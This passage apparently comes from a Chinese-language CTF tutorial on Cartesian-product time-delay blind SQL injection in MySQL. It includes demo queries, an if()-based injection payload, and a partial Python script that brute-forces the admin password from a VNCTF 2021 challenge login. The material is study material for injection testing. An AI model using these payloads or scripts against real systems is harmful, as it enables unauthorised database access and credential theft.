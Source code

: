 ```python
    if mid == 32 or mid == 127:
        break
    flag = flag + chr(mid)
    print("flag{", flag)

```

#### 笛卡尔积延时盲注

`count(*)` 后面所有表中的**列笛卡尔积数**，**数量越多越卡**，就会有延迟，类似之前某比赛pgsql的延时注入也可以利用此来 **打时间差**，从而达到延时注入的效果：

```sql
mysql> SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C;
+-----------+
| count(*)  |
+-----------+
| 978968592 |
+-----------+
1 row in set (13.23 sec)

mysql> select * from users where username='admin' and 1=1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  8 | admin    | admin    |
+----+----------+----------+
1 row in set (12.96 sec)
```

得到的结果都会有延迟。这里选用`information_schema.columns表`的原因是其内部数据较多，到时候可以根据实际情况调换。

可以使用这个原理，并配合if()语句进行延时注入了，payload 与之前相似，类似如下：

```sql
admin' and if(ascii(substr((select database()),1,1))>1,(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0)#

[OUTPUT:]
HTTP/1.1 504 Gateway Time-out    # 有很长的延时, 以至于Time-out了
```

+ 脚本

```python
import requests
url = 'http://4.c56083ac-9da0-437e-9b51-5db047b150aa.jvav.vnctf2021.node4.buuoj.cn:82/user/login'
flag = ''
for i in range(1,250):
   low = 32
   high = 128
   mid = (low+high)//2
   while(low<high):
       payload = "' or if((select ascii(substr((select password from user where username='admin'),%d,1)))>%d,(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),1)#" % (i, mid)
       datas = {
                "username":"admin",
                "password": payload
        }
       res = requests.post(url=url,data=datas,timeout=None)    # 不限制超时

       if '504 Gateway Time-out' in res.text:      # 为真时，即判断正确的时候的条件
           low = mid+1
       else:
           high = mid
```